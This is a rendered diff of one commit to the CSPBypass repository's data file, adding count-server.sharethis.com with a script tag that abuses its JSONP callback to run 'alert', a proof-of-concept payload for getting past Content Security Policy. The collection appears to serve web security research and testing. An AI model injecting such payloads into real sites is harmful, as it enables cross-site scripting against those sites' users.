

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; long unchanged cells end in …; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Added count-server.sharethis.com

```diff
--- a/data.tsv
+++ b/data.tsv
+row 70: count-server.sharethis.com | <script src="https://count-server.sharethis.com/v2.0/get_counts?cb=alert"></script>
```
